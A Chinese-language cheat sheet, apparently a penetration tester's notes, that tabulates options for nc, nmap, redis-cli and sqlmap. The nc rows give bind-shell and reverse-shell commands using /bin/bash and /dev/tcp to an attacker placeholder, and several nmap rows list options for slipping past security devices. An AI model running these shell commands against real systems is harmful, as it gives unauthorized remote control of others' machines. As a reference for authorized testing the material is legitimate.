 | nc        | 监听端口                       | -l 端口                                                      | -l 8888                                                      | 监听8888端口                                                 |
| nc        | 监听本地端口                   | -p 端口                                                      | -p 9999                                                      | 监听9999端口                                                 |
| nc        | 正向反弹shell                  |                                                              | nc -lvvp 端口 -e /bin/bash<br>nc 目标IP 端口                 | Linux受控主机执行<br>攻击机执行                              |
| nc        | 反向反弹shell                  |                                                              | nc -lvvp 端口<br>/bin/bash -i > /dev/tcp/攻击机/端口 0<&1 2>&1 | 攻击机需先监听<br>Linux受控主机执行                          |
| nmap      | 指定端口                       | -p 端口范围                                                  | nmap -p 1-65535 目标                                         | 扫描目标的1-65535端口<br>不指定端口时，为默认的1000个端口！！ |
| nmap      | 检测TLS版本                    | --script ssl-enum-ciphres                                    | nmap -p 端口 --script ssl-enum-ciphres 目标                  | 通常有TLS的目标都是用的https协议                             |
| nmap      | 绕设备<br>设置发包最大传输单元 | -mtu 大小                                                    |                                                              | 大小必须为8的倍数，且为正数                                  |
| nmap      | 绕设备<br>SYN扫描              | -sS                                                          |                                                              |                                                              |
| nmap      | 绕设备<br>禁止ping扫描         | -Pn                                                          |                                                              |                                                              |
| nmap      | ping检测主机存活               | -sP 网段                                                     | nmap -sP 192.168.1.0/24                                      | 检测C段的主机存活                                            |
| nmap      | 检测目标系统类型               | -O                                                           |                                                              |                                                              |
| nmap      | 边扫描边输出                   | -v                                                           |                                                              |                                                              |
| redis     | 打印字符串                     | echo '内容'                                                  |                                                              |                                                              |
| redis     | 切换数据库                     | select 索引                                                  |                                                              |                                                              |
| redis     | 显示服务器信息                 | info                                                         |                                                              |                                                              |
| redis     | 检测服务是否运行               | ping                                                         |                                                              |                                                              |
| redis     | 关闭连接                       | quit                                                         |                                                              |                                                              |
| redis     | 检测密码是否正确               | auth                                                         |                                                              |                                                              |
| redis-cli | 指定端口                       | -p 端口                                                      |                                                              | redis常见端口为6379                                          |
| redis-cli | 指定主机                       | -h 目标                                                      |                                                              | 这里的h是表示的hostname                                      |
| redis-cli | 指定密码                       | -a 密码                                                      |                                                              | 估计是p被用掉了，只能用password的第二个字母                  |
| sqlmap    | 检测get类型漏洞                | -u URL                                                       |                                                              |                                                              |
| sqlmap    | 检测post类型漏洞               | -r 文本路径                                                  |                                                              | 需要先使用抓包工具，获取请求报文后将内容写入文本，如果需要指定位置检测，可使用* |
| sqlmap    | 设置自动选择                   | --batch                                                      |                                                              |                                                              |
| sqlmap    | 流量代理                       | -proxy=http://IP:端口                                        |                                                              | 如果需要将流量转发到burp时，可以使用该参数                   |
| sqlmap    | 指定参数检测                   | -p 参数名                                                    |                                                              |                                                              |